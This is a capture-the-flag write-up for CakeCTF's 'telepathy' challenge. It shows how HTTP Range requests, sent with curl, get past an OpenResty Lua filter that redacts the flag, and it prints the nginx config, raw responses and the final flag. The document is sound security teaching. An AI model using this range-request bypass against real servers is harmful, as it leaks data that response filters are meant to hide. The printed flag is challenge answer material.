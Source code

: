 # telepathy

**Category**: misc \
**Points**: 173 points (29 solves) \
**Author**: theoldmoon0602

HTTP is no longer required. It's time to use telepathy to communicate more
securely and quickly. Here is my PoC: http://misc.cakectf.com:18100

Attachments: `telepathy.tar.gz`

## Overview

```
$ tree
.
├── challenge
│   ├── default.conf
│   ├── Dockerfile.app
│   ├── Dockerfile.nginx
│   ├── go.mod
│   ├── go.sum
│   ├── main.go
│   └── public
│       └── flag.txt
└── docker-compose.yml
```

We have two containers:
1. `Dockerfile.app`
  - Simply prints the flag at `http://app:8000`
  - Uses https://github.com/labstack/echo, a web framework written in Go
2. `Dockerfile.nginx`
  - Contains this config:

```nginx
server {
    listen       80;
    server_name  localhost;

    location / {
        # I'm getting the flag with telepathy...
        proxy_pass  http://app:8000/;

        # I will send the flag to you by HyperTextTelePathy, instead of HTTP
        header_filter_by_lua_block { ngx.header.content_length = nil; }
        body_filter_by_lua_block { ngx.arg[1] = ngx.re.gsub(ngx.arg[1], "\\w*\\{.*\\}", "I'm sending the flag to you by telepathy... Got it?\n"); }
    }
}
```

This is a similar use case as shown [here](https://github.com/openresty/lua-nginx-module/blob/master/README.markdown#L2350):

> When the Lua code may change the length of the response body, then it is
> required to always clear out the Content-Length response header (if any) in a
> header filter to enforce streaming output, as in
>
> ```nginx
>  location /foo {
>      # fastcgi_pass/proxy_pass/...
>
>      header_filter_by_lua_block { ngx.header.content_length = nil }
>      body_filter_by_lua 'ngx.arg[1] = string.len(ngx.arg[1]) .. "\\n"';
>  }
> ```

But anyway, what this line does is it replaces anything that looks like a flag
with a different string:
```lua
ngx.arg[1] = ngx.re.gsub(ngx.arg[1], "\\w*\\{.*\\}", "I'm sending the flag to you by telepathy... Got it?\n");
```

```sh
$ curl http://localhost:8100
I'm sending the flag to you by telepathy... Got it?
```

## Solution

First I read through the labstack/echo source code to see if there was anything
useful. I couldn't find anything, so there had to be some vulnerability in the
nginx configuration:

```http
$ nc localhost 8100
GET / HTTP/1.1
Host: localhost:8100

HTTP/1.1 200 OK
Server: openresty/1.19.3.2
Date: Sun, 29 Aug 2021 20:47:09 GMT
Content-Type: text/plain; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Accept-Ranges: bytes
Last-Modified: Fri, 27 Aug 2021 02:37:41 GMT

35
I'm sending the flag to you by telepathy... Got it?


0
```

Eventually I noticed the `Accept-Ranges: bytes` header. This means that the
server supports
[partial requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Range_requests#multipart_ranges)!


```
$ curl http://misc.cakectf.com:18100 -i -H "Range: bytes=0-10"
HTTP/1.1 206 Partial Content
Server: openresty/1.19.3.2
Date: Sun, 29 Aug 2021 20:49:43 GMT
Content-Type: text/plain; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Accept-Ranges: bytes
Content-Range: bytes 0-10/28
Last-Modified: Fri, 27 Aug 2021 03:48:29 GMT

CakeCTF{r4n%
```

Nice! And now we can get the rest of the flag:
```
$ curl http://misc.cakectf.com:18100 -i -H "Range: bytes=8-100"
HTTP/1.1 206 Partial Content
Server: openresty/1.19.3.2
Date: Sun, 29 Aug 2021 20:50:19 GMT
Content-Type: text/plain; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Accept-Ranges: bytes
Content-Range: bytes 8-27/28
Last-Modified: Fri, 27 Aug 2021 03:48:29 GMT

r4ng3-0r4ng3-r4ng3}
```

Flag: `CakeCTF{r4ng3-0r4ng3-r4ng3}`
